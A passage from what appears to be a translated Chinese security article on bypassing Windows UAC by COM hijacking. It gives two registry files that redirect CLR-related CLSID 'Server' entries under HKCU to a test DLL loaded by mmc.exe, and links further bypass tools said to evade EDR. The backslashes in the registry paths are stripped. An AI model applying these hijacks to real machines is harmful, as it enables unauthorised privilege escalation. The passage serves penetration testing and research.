 将“NDP SymBinder”作为原生DLL，通过**Server**入口进行劫持。

[![](https://p2.ssl.qhimg.com/t01e7e1c8e80d07b1d0.png)](https://p2.ssl.qhimg.com/t01e7e1c8e80d07b1d0.png)



```
Windows Registry Editor Version 5.00
[HKEYCURRENTUSERSoftwareClassesCLSID`{`0A29FF9E-7F9C-4437-8B11-F424491E3931`}`] @="NDP SymBinder"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`0A29FF9E-7F9C-4437-8B11-F424491E3931`}`InprocServer32] @="C:WindowsSystem32mscoree.dll" "ThreadingModel"="Both"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`0A29FF9E-7F9C-4437-8B11-F424491E3931`}`InprocServer324.0.30319] @="4.0.30319" "ImplementedInThisVersion"=""
[HKEYCURRENTUSERSoftwareClassesCLSID`{`0A29FF9E-7F9C-4437-8B11-F424491E3931`}`ProgID] @="CorSymBinder_SxS"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`0A29FF9E-7F9C-4437-8B11-F424491E3931`}`Server] @="C:Temptest_unmanaged.dll"
```

将“**Microsoft Common Language Runtime Meta Data**”组件作为原生DLL，通过**Server**入口进行劫持（仅适用于secpol.msc）。

[![](https://p3.ssl.qhimg.com/t0105a2f413a25e1945.png)](https://p3.ssl.qhimg.com/t0105a2f413a25e1945.png)



```
Windows Registry Editor Version 5.00
[HKEYCURRENTUSERSoftwareClassesCLSID`{`CB2F6723-AB3A-11D2-9C40-00C04FA30A3E`}`] @="Microsoft Common Language Runtime Meta Data"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`CB2F6723-AB3A-11D2-9C40-00C04FA30A3E`}`InprocServer32] @="C:WindowsSystem32mscoree.dll" "ThreadingModel"="Both"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`CB2F6723-AB3A-11D2-9C40-00C04FA30A3E`}`InprocServer324.0.30319] @="4.0.30319" "ImplementedInThisVersion"=""
[HKEYCURRENTUSERSoftwareClassesCLSID`{`CB2F6723-AB3A-11D2-9C40-00C04FA30A3E`}`ProgID] @="CLRMetaData.CorRuntimeHost.2"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`CB2F6723-AB3A-11D2-9C40-00C04FA30A3E`}`Server] @="........Temptest_unmanaged.dll"
```

注意：这里所使用的路径必须是相对路径，否则mmc.exe会尝试加载**C:WindowsMicrosoft.NETFramework64v4.0.30319C:Temptest_unmanaged.dll**。

<br>

**六、不安全的安全屏障**

****

微软曾反复表态，称UAC并不是一个安全屏障。安全人员通常会使用更加贴切实际的语言来描述这一点：不要信任UAC，不要以split-token管理员身份运行，非管理员任务始终使用非管理员用户权限运行。我十分赞同这段话。

尽管如此，许多人仍然会以本地管理员身份来运行，这些人正是渗透测试人员（或者红队）以及攻击者的目标。因此我认为会有人对这项技术感兴趣。

就渗透测试而言，我推荐@tiraniddo使用的[通用方法](https://tyranidslair.blogspot.fr/2017/05/reading-your-way-around-uac-part-1.html)（具体实现样例可参考[此链接](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1)，另一种实现[方法](https://twitter.com/enigma0x3/status/907397236627329024)很快就会公布），此方法不需要加载DLL，目前大多数EDR（端点检测与响应）解决方案都无法捕获这种方法。
